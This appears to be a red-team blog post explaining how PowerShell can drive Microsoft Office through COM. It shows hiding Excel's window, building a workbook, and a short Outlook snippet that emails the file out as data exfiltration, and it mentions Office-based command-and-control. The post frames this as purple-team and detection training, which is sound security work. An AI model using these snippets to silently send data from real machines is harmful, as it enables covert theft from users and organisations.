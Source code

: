 ```yaml
---
title: "Automating Microsoft Office to Achieve Red Teaming Objectives"
date: 2021-07-02T12:17:54-07:00
draft: true
tags: [
        "red", "ttp"
    ]
---
```


Many Windows applications and services are implemented using a powerful automation infrastructure called `Component Object Model (COM)`. 

`COM` has been around for decades and to this day its useful for programming, sharing of code at binary level, usage from scripting languages, and well, red teaming. 

## Wide Usage of Component Object Model

Many Microsoft products are implemented as COM objects, including Microsoft Office. Using `PowerShell` (or other languages) COM objects can be created to fully automate with applications. 

There is even a [Golang project to show how to invoke COM](https://github.com/go-ole/go-ole) from Go, which I'm certain real-world malware will pick up on soon.

## Exploring the Attack Angle

If a victim of a cyber attack has the Office suite installed malware can use COM in malicous and subversive ways. 

Importantly, this might be something that your Blue Teams is not yet trained to look for, so doing an operation in this space will be useful to build detection and investigation muscles.

Let's explore some scenarios and code examples in this blog post.

## Automating Microsoft Excel

For instance, it's quite simple to automate the popular `Excel` application via `PowerShell`. We can use the `New-Object -com` command to create the Excel Application, and subsequently interact with the returned object.

```
PS C:\> $excel = New-Object -com Excel.Application
PS C:\> $excel.Visible = $true
```

To stay under the radar and hide the user interface, use the default of `Visible = $false`.

### Editing the Excel document

As the next step we can add a `Workbook` and write some data to a specific `Cell`.

```
PS C:\> $workbook = $excel.Workbooks().Add()
PS C:\> $cell = $workbook.ActiveSheet.Cells(1,1)
PS C:\> $cell.Value = "Here goes the secret message!"
PS C:\> $workbook.Password = "Test"
```

This is how the result looks like:

![Using Excel Automation](/blog/images/2021/excel.PNG)

The above images shows the created Excel document. *Remember that we set `Visible=$true` - this to demo what is possible, during an attack an adversary would not show the user interface.*

### Saving the document

Using the `SaveAs` function the document can be stored.

```
PS C:\> $workbook.SaveAs("EmbraceTheRed")
```

### Closing the document

Finally, Excel can be closed.

```
PS C:\> $workbook.Close()
PS C:\> $excel.Quit()
```

### Data Exfiltration - Emailing the document

As said all most of Office is implemented using COM interfaces, so we can automate `Outlook` as well. 

In order to send the created `Excel` document out of the network, an adversary could use `Outlook` for instance. 

```
$to = ""
$subject = "Secret Excel Document"
$content = "Important message attached."

$outlook = New-Object -com Outlook.Application
$mail = $outlook.CreateItem(0)
$mail.Attachments.Add("EmbraceTheRed")
$mail.subject = $subject
$mail.To = $to
$mail.HTMLBody = $content

$mail.Send()
```

Note, by default this should use the current users Outlook profile.

Alternatively you could just use the Excel built in `SendMail` API which is [documented here](https://docs.microsoft.com/en-us/office/vba/api/excel.workbook.sendmail).


## Command & Control via Office Automation

Using these COM automation techniques its possible to use off the shelve applications installed on a compromised machine to exfiltrate data, but also to establish an entire C2 infrastructure and message communication. 

## Conclusion

COM Automation and scripting langauges are a powerful way to exfiltrate data using existing applications already present on a compromised host. 

**In my opinion these TTPs are a good candidates for a purple team operations.**


Cheers,
[@wunderwuzzi23](https://twitter.com/wunderwuzzi23)

If you found this interesting check out my book about [Cybersecurity Attacks - Red Team Strategies](https://www.amazon.com/gp/product/1838828869/ref=as_li_tl?ie=UTF8&tag=wunderwuzzi-20&camp=1789&creative=9325&linkCode=as2&creativeASIN=1838828869&linkId=07bfd6b729fbc2b2904160e0e16c337f).


## References

1. [Golang projects that show how to use COM from Go](https://github.com/go-ole/go-ole). 
1. [SendMail Excel API](https://docs.microsoft.com/en-us/office/vba/api/excel.workbook.sendmail)